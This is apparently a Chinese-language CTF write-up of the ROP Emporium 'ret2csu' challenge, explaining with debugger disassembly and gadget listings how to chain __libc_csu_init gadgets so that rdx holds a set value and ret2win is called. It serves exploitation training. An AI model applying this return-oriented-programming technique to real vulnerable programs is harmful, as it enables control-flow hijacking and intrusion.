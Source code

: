 > 1. The challenge is simple: call the ret2win() function
> 2. The third argument (rdx) must be 0xdeadcafebabebeef
> 3. There's no gadget such as `pop rdx`

<br>

## Reverse
根据题意，呼叫 ret2win()，并且第三个参数为 0xdeadcafebabebeef 即可。

<br>

## ROP Gadgets
用 ROPgadget 看一下，没有可用的 gadgets。
```
> ROPgadget --binary ret2csu | grep rdx
0x0000000000400567 : lea ecx, [rdx] ; and byte ptr [rax], al ; test rax, rax ; je 0x40057b ; call rax
0x000000000040056d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
```

## Return-to-csu
在 __libc_csu_init() 里面，我们可以找到两个很有用的 gadgets。
```
pwndbg> disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:     push   r15
   0x0000000000400842 <+2>:     push   r14
   0x0000000000400844 <+4>:     mov    r15,rdx
   0x0000000000400847 <+7>:     push   r13
   0x0000000000400849 <+9>:     push   r12
   0x000000000040084b <+11>:    lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:    push   rbp
   0x0000000000400853 <+19>:    lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:    push   rbx
   0x000000000040085b <+27>:    mov    r13d,edi
   0x000000000040085e <+30>:    mov    r14,rsi
   0x0000000000400861 <+33>:    sub    rbp,r12
   0x0000000000400864 <+36>:    sub    rsp,0x8
   0x0000000000400868 <+40>:    sar    rbp,0x3
   0x000000000040086c <+44>:    call   0x400560 <_init>
   0x0000000000400871 <+49>:    test   rbp,rbp
   0x0000000000400874 <+52>:    je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:    xor    ebx,ebx
   0x0000000000400878 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
End of assembler dump.
```

gadget1：
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
```

gadget2：
```
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

通过 gadget2 和 gadget1，我们可以控制 edi, rsi, rdx，也就是前三个参数。

至于 `r12 + rbx*8` 我们可以试着拼凑出一个指向 plt 或 got 中某条 entry 的 address。

<br>

## Pwn
但这题有个很坑的地方：在 GOT/PLT 中我们无法找到 ret2win() 的 entry，但是透过以下方法可以找到：
```
pwndbg> info address ret2win
Symbol "ret2win" is at 0x4007b1 in a file compiled without debugging.
```

我们只要想办法在内存某处，塞入这个 address 然后让 r12 + rbx*8 指向 address 所在的那个 qword 即可。

但是如果是在 stack 上，这肯定是不可行的，因为 ASLR = 1、2 时 stack 的位址是随机化的。

但这题有个很奇怪的点，不知道为什么 fgets() 输入的东西，居然会被映射在 heap 上某处！？？？

然后因为 PIE 没开启，只要 ASLR = 0 或 1，这题就可以轻松解决！

但这里不说这个，有兴趣自己试试看，我们说说比较可靠的解法。

<br>

到 *__libc_csu_init+73 的时候，会呼叫 [r12+rbx*8] 这个位址的 function，我们必须：
1. 不要 segfault
2. 不要动到 rdx
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

有个很好的对象可以呼叫，看看 _fini()：
```
pwndbg> disas _fini
Dump of assembler code for function _fini:
   0x00000000004008b4 <+0>:     sub    rsp,0x8
   0x00000000004008b8 <+4>:     add    rsp,0x8
   0x00000000004008bc <+8>:     ret
End of assembler dump.
```

在 .dynamic (dynamic section) 里记录了 _fini() 的真实位址：
```
pwndbg> x/10gx &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4 <--- _fini
（省略若干行）
```

所以我们只要让 r12+rbx*8 等于 0x600e48， 那么 qword ptr [r12+rbx*8] 就会等于 0x00000000004008b4。

但必须注意，在 call qword ptr [r12+rbx*8] 之后：
```
0x000000000040088d <+77>:    add    rbx,0x1
0x0000000000400891 <+81>:    cmp    rbp,rbx
0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
```

我们可以让 rbx = 0，rbp = 1，这样 rbx += 1 之后就会和 rbp 相等，就不会 jne 0x400880。

接着就会继续执行后面几行：
```
0x0000000000400896 <+86>:    add    rsp,0x8
0x000000000040089a <+90>:    pop    rbx
0x000000000040089b <+91>:    pop    rbp
0x000000000040089c <+92>:    pop    r12
0x000000000040089e <+94>:    pop    r13
0x00000000004008a0 <+96>:    pop    r14
0x00000000004008a2 <+98>:    pop    r15
0x00000000004008a4 <+100>:   ret
```

要注意在 pop rbx 之前有个 add rsp, 0x8，所以我们必须多加一个 'AAAAAAAA'。

也就是说，这边开始需要 `7 * 'AAAAAAAA' + ret2win` 而不是 `6 * 'AAAAAAAA' + ret2win`
